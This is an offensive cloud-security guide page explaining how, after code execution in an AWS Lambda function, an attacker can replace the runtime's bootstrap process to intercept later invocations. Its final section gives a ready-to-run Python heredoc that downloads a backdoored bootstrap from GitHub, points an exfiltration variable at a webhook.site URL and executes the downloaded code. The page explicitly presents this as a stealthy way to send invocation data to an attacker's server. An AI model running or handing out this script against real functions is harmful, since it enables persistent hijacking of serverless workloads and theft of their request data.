 # AWS - Steal Lambda Requests

## Lambda Flow

![](../../../../images/image (341).png)

*[https://unit42\.paloaltonetworks.com/wp\-content/uploads/2019/10/lambda\_poc\_2\_arch.png](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png)*

1. **Slicer** is a process outside the container that **send** **invocations** to the **init** process.
2. The init process listens on port **9001** exposing some interesting endpoints:
   - **`/2018-06-01/runtime/invocation/next`** – get the next invocation event
   - **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – return the handler response for the invoke
   - **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – return an execution error
3. **bootstrap.py** has a loop getting invocations from the init process and calls the users code to handle them (**`/next`**).
4. Finally, **bootstrap.py** sends to init the **response**

Note that bootstrap loads the user code as a module, so any code execution performed by the users code is actually happening in this process.

## Stealing Lambda Requests

The goal of this attack is to make the users code execute a malicious **`bootstrap.py`** process inside the **`bootstrap.py`** process that handle the vulnerable request. This way, the **malicious bootstrap** process will start **talking with the init process** to handle the requests while the **legit** bootstrap is **trapped** running the malicious one, so it won't ask for requests to the init process.

This is a simple task to achieve as the code of the user is being executed by the legit **`bootstrap.py`** process. So the attacker could:

- **Send a fake result of the current invocation to the init process**, so init thinks the bootstrap process is waiting for more invocations.
  - A request must be sent to **`/${invoke-id}/response`**
  - The invoke-id can be obtained from the stack of the legit **`bootstrap.py`** process using the [**inspect**](https://docs.python.org/3/library/inspect.html) python module (as [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) or just requesting it again to **`/2018-06-01/runtime/invocation/next`** (as [proposed here](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Execute a malicious **`boostrap.py`** which will handle the next invocations
  - For stealthiness purposes it's possible to send the lambda invocations parameters to an attackers controlled C2 and then handle the requests as usual.
  - For this attack, it's enough to get the original code of **`bootstrap.py`** from the system or [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), add the malicious code and run it from the current lambda invocation.

### Attack Steps

1. Find a **RCE** vulnerability.
2. Generate a **malicious** **bootstrap** (e.g. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Execute** the malicious bootstrap.

You can easily perform these actions running:

```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

For more info check [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

